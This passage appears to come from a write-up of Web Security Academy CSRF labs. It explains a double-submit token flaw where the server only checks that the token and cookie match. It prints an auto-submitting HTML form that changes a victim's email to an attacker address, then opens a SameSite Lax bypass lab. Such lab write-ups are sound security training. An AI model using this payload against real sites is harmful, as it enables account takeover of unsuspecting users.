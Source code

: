 This behavior revealed that the application only required the CSRF token and cookie to **match**, regardless of their actual values.

![image](https://github.com/user-attachments/assets/38fa3fd2-de07-41f5-b153-cc9e5f777ec5)

---

## Exploitation

Since the server only checked if both CSRF values were identical (not valid), an attacker didn’t need a real or server-issued CSRF token.

I reused the exploit code from the previous lab and modified it:

- Set both the CSRF **token** and **cookie** to an arbitrary but identical value (e.g., `csrf`).

```html
<html>
  <body>
    <script>
      document.cookie = "csrf=csrf";
    </script>
    <form action="https://example.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker@example.com" />
      <input type="hidden" name="csrf" value="csrf" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
````
![image](https://github.com/user-attachments/assets/5a599528-2d75-45c2-96c2-f6361cc44a9f)


---


### LAB 7 - SameSite Lax bypass via method override

### Lab Description

![image](https://github.com/user-attachments/assets/ff9a4eef-6490-47aa-83bc-075b0ebca6bf)

### Solution


## Objective

Exploit a CSRF vulnerability where no unpredictable tokens are present, and session cookies use the default `SameSite=Lax` setting, allowing cookies to be sent in top-level `GET` requests.

---